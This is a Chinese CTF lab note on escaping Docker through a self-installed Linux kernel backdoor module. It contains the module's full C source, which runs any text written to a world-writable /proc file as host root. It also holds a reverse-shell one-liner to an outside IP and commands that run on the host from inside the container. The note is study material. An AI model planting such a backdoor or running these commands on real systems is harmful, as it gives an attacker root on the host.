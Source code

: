 ```yaml
---
title: Docker 逃逸 潦草笔记
categories:
- CTF/Pwn
tags: 
---
```


> 参照[从0到1的虚拟机逃逸三部曲](https://xz.aliyun.com/t/7345)，实现了一个通过linux内核后门对docker逃逸的例子。

## docker原理

- [linux中的容器与沙箱初探](https://atum.li/2017/04/25/linuxsandbox/)
- [Docker是如何实现隔离的](https://juejin.cn/post/6844904052006846478)
- [fork、vfork、clone区别](https://www.cnblogs.com/johnnyflute/p/3560102.html)
- [linux cgroups 简介](https://www.cnblogs.com/sparkdev/p/8296063.html)

## 内核态漏洞

> 在ubuntu 20.04完成

- [从0到1的虚拟机逃逸三部曲](https://xz.aliyun.com/t/7345)
- [play_with_docker](https://nightrainy.github.io/2019/10/31/play-with-docker/)

在以linux为底座的情况下，由于docker和宿主机共用linux内核，这使得逃逸过程可以退化为对linux内核漏洞的利用。例如使用内核函数call_usermodehelper拉起的用户态进程就直接是在宿主机正常namespace的root进程，在docker里如果能触发完成此过程，则完成逃逸。例如使用如下后门内核模块：

```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/proc_fs.h>

MODULE_LICENSE("GPL");


static ssize_t kshell_write(struct file *file, const char __user *ubuf, size_t count, loff_t *ppos)
{
    char buf[0x1000];
    copy_from_user(buf, ubuf, count);
    char *cmd_argv[] = {"/usr/bin/bash", "-c",buf,NULL};
    call_usermodehelper("/usr/bin/bash", cmd_argv, NULL, UMH_WAIT_PROC);

    return count;
}

const struct proc_ops myops = {
    .proc_write = kshell_write
};

static int kshell_init(void)
{
    printk(KERN_INFO "kernel shell, init!\n");
    proc_create("kshell",0666,NULL,&myops);
    return 0;
}
 
static void kshell_exit(void)
{
    remove_proc_entry("kshell", NULL);
    printk(KERN_INFO "kernel shell, exit!\n");
}
 
module_init(kshell_init);
module_exit(kshell_exit);
```

```makefile
obj-m += hello.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

编译、insmod、并映射到docker容器中：

```c
xuanxuan@ubuntu:~$ make
xuanxuan@ubuntu:~$ sudo insmod hello.ko
xuanxuan@ubuntu:~$ docker container run -v /proc/kshell:/kshell  -it ubuntu:18.04 bash
```

不过在最后利用的形式上与内核提权有所差异，由于namespace的影响，不直接通过回用户态然后执行/bin/sh在docker中获得一个宿主机的shell，但可以出网弹shell：

- [说一说反弹shell](http://www.singleye.net/2018/04/%E8%AF%B4%E4%B8%80%E8%AF%B4%E5%8F%8D%E5%BC%B9shell/)

```c
root@03ea4622e658:/# echo "/usr/bin/bash -i >& /dev/tcp/10.11.11.1/8888 0>&1 &" > /kshell
```

也可以使用落地文件，将命令在本地回显：

```c
root@03ea4622e658:/opt# mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/6NRKJVEFBBGFB3UAOG4SELSIPD:/var/lib/docker/overlay2/l/Q23MHYI2YS55FM6SSF64IX4ZSD,upperdir=/var/lib/docker/overlay2/be01093928ed89406df771649c8249d89b77598b05639bca139673bea7bc2a4e/diff,workdir=/var/lib/docker/overlay2/be01093928ed89406df771649c8249d89b77598b05639bca139673bea7bc2a4e/work)
root@03ea4622e658:/# echo "id > /var/lib/docker/overlay2/be01093928ed89406df771649c8249d89b77598b05639bca139673bea7bc2a4e/merged/1.txt" > /kshell 
root@03ea4622e658:/# cat 1.txt 
uid=0(root) gid=0(root) groups=0(root)
```

还可以在宿主机上弹计算机（GUI程序不能使用root，要切回普通用户，卡了一晚上）：

```c
root@03ea4622e658:/# echo "su xuanxuan -c 'DISPLAY=:0 /usr/bin/gnome-calculator &'" > /kshell
```

## 出题环境搭建

内核态的利用一般仍归属于linux内核，并且看起来更多的逃逸都是与docker的使用、配置相关，在二进制上攻破docker守护进程本身并不常见，所以暂时搁置。

- [Docker 安全性与攻击面分析](https://www.anquanke.com/post/id/209448)
- [Docker 逃逸相关总结](https://www.geekby.site/2021/02/docker%E9%80%83%E9%80%B8%E7%9B%B8%E5%85%B3%E6%80%BB%E7%BB%93/)
- [docker 逃逸初学](https://chen1sheng.github.io/docker%E9%80%83%E9%80%B8/)

不过由于逃逸，所以在搭建题目上需要做队伍间隔离，一般三层：docker（deploy）-> qemu（flag）-> docker（attack）：

- [出题报告: nday_container_escape](https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/CTF/%E5%87%BA%E9%A2%98/xctf_huaweicloud-qualifer-2020/%E5%87%BA%E9%A2%98%E6%8A%A5%E5%91%8A-nday_container_escape.html)
- [出题报告: container/registry_misc](https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/CTF/%E5%87%BA%E9%A2%98/hwctf202101/%E5%87%BA%E9%A2%98%E6%8A%A5%E5%91%8A-containerregistry_misc.html)
- [出题报告: container/latest_laravel](https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/CTF/%E5%87%BA%E9%A2%98/hwctf202102/%E5%87%BA%E9%A2%98%E6%8A%A5%E5%91%8A-containerlatest_laravel.html)